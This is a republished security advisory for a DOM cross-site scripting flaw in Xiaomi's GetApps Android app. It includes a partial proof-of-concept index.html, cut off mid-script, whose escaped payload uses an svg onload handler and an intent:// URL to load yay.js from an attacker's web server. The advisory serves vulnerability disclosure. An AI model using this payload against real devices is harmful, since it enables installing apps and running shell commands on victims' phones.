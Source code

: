 ```yaml
---
layout: page
title: CVE-2024-4406 / CVE-2024-45346 Details
permalink: /cves/cve-2024-4406
---
```


#### Original post: [https://www.nccgroup.com/us/research-blog/technical-advisory-xiaomi-13-pro-code-execution-via-getapps-dom-cross-site-scripting-xss/](https://www.nccgroup.com/us/research-blog/technical-advisory-xiaomi-13-pro-code-execution-via-getapps-dom-cross-site-scripting-xss/)

|    **Product**    | GetApps Store Android Application (`com.xiaomi.mipicks`) 30.4.1.0 and below |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2024-4406 (ZDI), CVE-2024-45346 (Xiaomi)             |
|      **Type**     |      URL Filter Bypass      |

## Summary

The GetApps Android Application (`com.xiaomi.mipicks`) versions 30.4.1.0 and below are vulnerable to a DOM Cross-Site Scripting issue within a privileged WebView. Using this issue, it was possible to execute against a privileged JavaScript Interface to install and open any application available in the GetApps application store.

## Impact

If a malicious application were to be uploaded to the GetApps application store, then this issue could be used to install said application and execute arbitrary shell commands on the victim device.

## Exploit

To successfully exploit this issue, two files are required to be hosted on an attacker’s web server:

* `index.html`
* `yay.js`

The contents of `index.html` is below:

```
<html>
<head>
        <title>yaytitleyay</title>
</head>
<body>
        <script type="text/javascript">
                var yayhostyay = location.hostname; // gets host / domain, can also set this to a static value
                var yayportyay = location.port // must be a port number of some sort, or let the script get the prot number by itself
                var yaypayloadyay = "{\"title\":\"look at my PoC!\",\"type\":\"yaytypeyay\\u0022\\u003e\\u003csvg onload\\u003d\\u0022javascript\\u003aj\\u003ddocument.createElement('script');j.src\\u003d'http\\u003a\\u002f\\u002f" + yayhostyay + "\\u003a" + yayportyay + "\\u002fyay.js';document.getElementsByTagName('head')[0].appendChild(j);\\u0022\\u003e\",\"subtitle\":\"brought to you by NCC Group\",\"tips\":\"also Pichu is awesome\",\"btnTips\":\"yayexploityay\"}"
                var yayhyperlinkyay = "intent://browse?url=file%3A%2F%2Fintegral-dialog-page.html?integralInfo=" + encodeURIComponent(yaypayloadyay) + "#Intent;action=android.intent.action.VIEW;scheme=mimarket;end"

                var a = document.createElement("a");
```